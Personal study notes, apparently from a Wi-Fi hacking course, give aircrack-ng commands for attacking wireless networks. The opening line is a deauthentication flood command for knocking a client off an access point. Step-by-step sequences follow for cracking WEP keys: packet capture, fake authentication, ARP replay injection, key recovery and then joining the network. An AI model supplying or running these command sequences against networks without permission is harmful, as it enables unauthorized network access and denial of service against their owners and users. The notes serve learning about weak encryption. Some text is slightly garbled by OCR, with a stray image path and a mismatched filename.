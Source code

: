 - aireplay-ng --deauth 100000000 -a <MAC address of the network/access point> -c (MAC address from the client i want to disconnect> mon0
    

  

Breaking different types of encryption

  

WEP(Wired equivalent privacy)

Old, easily broken and rarely used. Client encrypted with a key stream(random initialisation vector with 24 bits is used to generate the key streams. IV + Key (password) = Key stream) is used, sent through air, router decrypt with key.

To crack we need to capture a large number of packets/IVs (the IVs are on each packet), analyse the captured IVs and crack the key

  

With big traffic - Big quantity of packets

- Open Terminator
    
- airodump-ng --bssid <MAC address)> --channel 1 --write basic_web mon0
    
- Open another terminator window
    
- ls
    
- aircrack-ng  basic_wep-01.cap
    
- Copy Key that was found, but take off the points from that number
    
- Now you can connect to the network using that as a password. If you do it from Kali, restart it before
    

  

With low traffic - Force it to generate packets

- Open terminator
    
- airodump-ng--bssid <MAC address of the network> --channel 6 --write arpreplay mon0
    
- Open another terminator window
    
- aireplay-ng --fakeauth 0 -a <MAC address of the target network> -h <MAC address of my wireless adapter> mon0
    
- You can discover MAC address of the wireless adapter with ifconfig, but replace the - with :
    
- Open another terminator window
    
- aireplay-ng --arpreplay -b <MAC address of the target network> -h <MAC address of my wireless adapter> mon0
    
- aireplay-ng --fakeauth 0 -a <MAC address of the target network> -h <MAC address of my wireless adapter> mon0
    
- aircrack-ng arpreplay-01.cap
    

  
